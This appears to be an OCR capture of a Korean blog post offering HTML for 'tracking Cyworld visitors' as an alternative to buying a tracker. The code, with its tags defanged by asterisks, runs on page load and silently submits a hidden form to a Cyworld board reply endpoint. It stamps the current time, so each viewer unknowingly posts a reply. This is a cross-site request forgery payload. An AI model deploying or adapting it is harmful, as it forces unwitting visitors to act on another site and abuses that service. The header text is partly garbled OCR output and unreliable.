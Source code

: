 cy
==

cy

<*html>
<*head>
<*script>
*function timeVal() {
*var time = new Date()
*var yy = time.getYear()
*var mm = time.getMonth() + 1
*var dd = time.getDate()
*var hour = time.getHours()
*var minute = time.getMinutes()
*var second = time.getSeconds()
*var pos_val = " " 

*pos_val += yy + " 년" + mm + "월 " + dd + "일" + " " + ((hour > 12) ? (hour - 12) : hour)
*pos_val += ((minute < 10) ? ":0" : ":") + minute
*pos_val += ((second < 10) ? ":0" : ":") + second
*pos_val += (hour >= 12) ? " PM" : " AM"
*return pos_val;
}
</*script> 
</*head>
<*body onload="javascript<x>:document.form1.content.value=timeVal();document.form1.submit()"> </x>
<*form method=post action="http://minihp.cyworld.nate.com/pims/board/general/board_replyok.asp" id=form1 name=form1>
<*input type=hidden name=tid value="싸이 번호">
<*input type=hidden name=board_no value="게시판번호">
<*input type=hidden name=item_seq value="글번호">
<*input type=hidden name=cpage value="1">
<*input type=hidden name="search_type" value="">
<*input type=hidden name="search_keyword" value="">
<*input type=hidden name="domain" value="">
<*input type=hidden name="breply" value="0">
<*input type=hidden name="review_seq" value="">
<*input type="text" name="content" style="width:200px;"class="input2" value="">
</*form> 
</*body>
</*html>
[출처] 싸이월드 방문자 추적 및 기록 남기기 /구매하지마세요|작성자 호안이호종
